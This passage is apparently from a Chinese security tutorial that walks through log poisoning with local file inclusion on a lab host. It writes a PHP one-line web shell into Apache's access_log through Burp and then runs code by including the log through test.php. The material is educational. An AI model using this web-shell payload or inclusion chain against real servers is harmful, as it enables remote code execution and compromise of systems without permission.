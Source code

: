 ```
http://192.168.235.152/test.php?a=<?php eval($_GET["shell"]);?>
```

![image-20220928165803022](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928165803022.png)

发现`<""`被URL编码了，这是在发送时浏览器自动进行的操作，所以需要使用代理对数据进行修改

开启代理

![image-20220928170847884](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928170847884.png)

发送请求，找到php语句修改后重新发送

![image-20220928170912522](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928170912522.png)

Burp就拦截到了数据

![image-20220928170940105](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928170940105.png)

修改请求，然后发送，再次查看log文件

![image-20220928171037153](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928171037153.png)

一句话木马就写入到日志文件了，但是可以发现`"`被转义了😂，这里需要换成`'`才可以成功

![image-20220928171524597](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928171524597.png)

然后通过`test.php`进行测试，因为之前被注入了一个错误的php语句，在多条php语句的情况下，include会按照顺序执行php语句，所以我们最后添加的php无法执行，因为前一句php报错了，所以我们手动将这一行删除

![image-20220928171609521](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928171609521.png)

删除完毕😂

![image-20220928171857763](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928171857763.png)

又报错了，这里eval换成assert试试

**arse error**: syntax error, unexpected end of file in **/opt/lampp/logs/access_log(44385) : eval()'d code** on line **1**

![image-20220928172210055](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928172210055.png)

![image-20220928173521041](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928173521041.png)

访问成功

```
http://192.168.235.152/test.php?cmd=/opt/lampp/logs/access_log&shell=phpinfo()
```

![image-20220928173543913](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220928173543913.png)

## 二、包含登录日志
